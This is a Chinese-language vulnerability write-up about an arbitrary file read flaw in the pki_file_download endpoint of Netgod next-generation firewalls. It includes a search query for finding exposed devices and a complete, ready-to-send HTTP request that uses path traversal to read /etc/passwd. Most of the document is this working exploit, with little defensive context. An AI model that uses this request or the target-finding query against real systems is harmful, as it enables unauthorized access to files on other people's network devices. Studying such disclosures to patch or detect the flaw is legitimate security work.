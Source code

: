 # 网神 下一代极速防火墙 pki_file_download 任意文件读取漏洞

## 漏洞描述

网神下一代极速防火墙 pki_file_download 存在任意文件读取漏洞，攻击者可以通过漏洞获取服务器上的任意文件

## 漏洞影响

```
网神下一代极速防火墙
```

## 网络测绘

```
app="网神下一代极速防火墙"
```

## 漏洞复现

登录页面如下

![](./images/202202162229226.png)

发送请求包

```plain
GET /?g=pki_file_download&filename=../../../../../etc/passwd HTTP/1.1
Host: 
Connection: close
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __s_sessionid__=7rl7vvg1mlc00gf4pfmo74h0t7
```

![](./images/202202162229183.png)




